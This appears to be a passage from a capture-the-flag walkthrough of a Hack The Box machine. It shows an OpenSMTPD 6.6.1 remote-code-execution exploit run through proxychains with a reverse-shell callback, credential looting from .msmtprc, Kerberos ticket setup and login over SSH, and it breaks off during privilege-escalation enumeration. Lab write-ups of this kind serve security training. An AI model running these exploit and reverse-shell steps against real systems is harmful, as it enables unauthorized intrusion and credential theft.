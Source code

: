 {{< figure src="__GHOST_URL__/content/images/2021/06/image-31.png" >}}

After some trial and error, we see that the `OpenSMTPD` 6.6.1 exploit seems to be valid.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-32.png" >}}

So now we will give it the old `Bash` reverse shell and have it connect back to our `Netcat` listener. Turns out, this won't work for us, the code needs to be modified a bit more. Now, I didn't modify the code, I just searched for another and found this: https://github.com/QTranspose/CVE-2020-7247-exploit/blob/main/exploit.py.

We have an email from our earlier enumeration - j.nakazawa@realcorp.htb. So we can run this and see what we get!

Command:
`proxychains python3 exploit.py 10.241.251.113 25 10.10.14.101 7070 j.nakazawa@realcorp.htb`

{{< figure src="__GHOST_URL__/content/images/2021/06/smtp_accerss.gif" >}}

Awesome, now we have a foothold! Now what? We can enumerate more! We find a file called `.msmtprc`. Inside we have a password, yes! We try to login with it aaannddd nope. Denied. There are some login controls in place here. If we look back at our port scan on the box, we remember seeing three ports for kerberos. Looks like we'll need to generate a kerberos ticket to log in with. This isn't as hard as it might sound. 

First we install the kerberos user package.

Command:
`sudo apt install krb5-user`

Next we add our target to the config file as the primary kdc. This file is under `/etc/krb5.conf`.

We need to edit a few lines, first our `default_realm`, that needs to be our target domain, `REALCORP.HTB`. Next we need to add a new realm of `REALCORP.HTB`. Then add  the `domain_realm` for this domain. All in all these are what the modified lines should look like:

{{< figure src="__GHOST_URL__/content/images/2021/06/image-38.png" >}}

{{< figure src="__GHOST_URL__/content/images/2021/06/image-36.png" >}}

Now we can use the `kinit` command to generate ourselves a ticket for j.nakazawa.

Command:
`kinit j.nakazawa`

We don't get a response, so we check the kerberos table with `klist` and we should see a ticket!

{{< figure src="__GHOST_URL__/content/images/2021/06/image-39.png" >}}

Now we should be able to SSH into the box!

{{< figure src="__GHOST_URL__/content/images/2021/06/image-40.png" >}}

We get in and snag our `user.txt` flag! Now we can start enumerating more to identify a priv esc. We download over `linpeas` and some other enumeration tools and start poking around.

We find this entry that stands out a bit:

{{< figure src="__GHOST_URL__/content/images/2021/06/image-41.png" >}}

It's in a location that can be globally accessed and we have execute rights on. As we keep sifting through the output we also see it's called on a cron:
